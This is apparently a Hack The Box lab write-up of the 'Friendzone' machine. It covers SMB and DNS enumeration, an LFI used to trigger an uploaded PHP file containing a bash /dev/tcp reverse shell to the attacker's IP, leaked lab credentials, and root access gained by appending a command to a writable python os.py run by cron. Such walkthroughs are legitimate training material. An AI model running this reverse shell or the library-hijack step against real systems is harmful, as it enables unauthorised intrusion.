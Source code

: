 ```yaml
---
layout:     post
title:      "Hack The Box - Friendzone"
subtitle:   "Write-Up"
date:       2019-07-12
author:     "d4mianwayne"
permalink: /:title/
category: Hack The Box
---
```


Today, we are going to pwn Friendzone from Hack The Box.

# Methodology

* Nmap scan of the machine 
* Checking SMB service and HTTP
* Using `dig` to get subdomians
* Uploading PHP reverse shell 
* Callback the reverse shell by exploiting LFI(Local File Inclusion)
* Getting user flag and SSH credentials
* Using cronjob to get root flag

# Nmap

Starting off with the nmap, `nmap -sV -sC -A 10.10.10.123` shows so many open ports but we have to start somewhere.
It includes:-

* 21 - FTP
* 22 - SSH
* 53 - DNS
* 80 - HTTP
* 139 & 445 - SMB
* 443 - SSL/HTTP

![](/img/friendzone/nmap.png)

# SMB and HTTP Enumeration

Using smbmap reveals we have access to `general` for read only and `Development` for read/write access.
So, we connect to `SMB` by using `smbclient //10.10.10.123/general/ -u root`  reveals we see `creds.txt` so we get it on our machine.

Now, `Developement` seems empty so I headover to HTTP port, it was basic html page without only one useful information **subdomain**. We noticed it has a subdomian named `friendzone.red`.
Running `gobuster` reveals nothing useful, so I moved on to DNS recon.


# DNS Enumeration and Login

Using `dig axrf friendzone.red @10.10.10.123` reveals a `administartor1.friendzone.red` so heading over to that shows a login page, loggin with the previous obtained credentials `admin:WORKWORKHhallelujah@#` , tell us to redirect to `dashboard.php`.

![](/img/friendzone/dig.png)

![](/img/friendzone/admin.png)

![](/img/friendzone/creds.png)

# Exploiting LFI vulnerability and callback Reverse Shell

This page seems told us to access url `default is image_id=a.jpg&pagename=timestamp`, seems LFI isn't it?

From previous SMB enumeration we knew that `Development` directory has read/write access so using php reverse shell wecan get access to friendzone machine.

Using folllowing code as `phpinfo.php`:-

```

<?php
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.14.156/1234 0>&1’”);
phpinfo();
?>

```

we uploaded it to `Development ` directory by

`curl --upload-file phpinfo.php -u 'root' smb://10.10.10.123/Development/`, we uploaded our shell.

![](/img/friendzone/rev.png)

#### Callback

From previously found LFI, we access the our phpinfo file by 
`https://administrator1.friendzone.red/dashboard.php?image_id=b.jpg&pagename=/etc/Development/phpinfo`

![](/img/friendzone/lfi.png)

Not `a.jpg` because it was default so no need to, so back to our listener we get a shell.

![](/img/friendzone/revs.png)

#### User Flag

Once your listener get connected to our uploaded reverse shell you can get user flag.

![](/img/friendzone/user.png)


# Getting SSH Credentials

Checking directory and file reveals a interseting file named `mysql_data.conf` has following credentials:-

***

>for development process this is the mysql creds for user friend

>db_user=friend

db_pass=Agpyu12!0.213$

>db_name=FZ

***

![](/img/friendzone/sshcreds.png)

# SSH Login and root flag

Well, we login to ssh using previous credentials.

![](/img/friendzone/ssh.png)


### Analyzing Running Processes

There was a ELF file named `pspy64`, executing it shows running jobs in which we can very interesting process whuch was a python file.

![](/img/friendzone/cronjob.png)

Head over `/opt/server_admin/reporter.py` shows a nothing more than bunch of commented out line of python code.

```

#!/usr/bin/python

import os

to_address = “admin1@friendzone.com”
from_address = “
admin2@friendzone.com”

print “[+] Trying to send email to %s”%to_address

#command = ‘’’ mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass “PAPAP”’’’

#os.system(command)

# I need to edit the script later
# Sam ~ python developer

```

We can see a line importing python os module, since we don't have modify permissions for reporter.py we head over `/usr/bin/python2.7`  we can edit os.py i.e python's `os` module which has a function which allows us to execute any command by passing them as parameter. 

For example:-

```

import os
os.sytem('whoami') #friend

```

So we add a single line of code at the very end of `os.py` 

```

system('cp /root/root.txt /tmp/root1.txt') # calling system functon and copying flag

```

Hence, waiting for few minutes gives `root1.txt`.

![](/img/friendzone/root.jpg)

**Done!!**

<img src="https://www.hackthebox.eu/badge/image/129534" alt="Hack The Box">
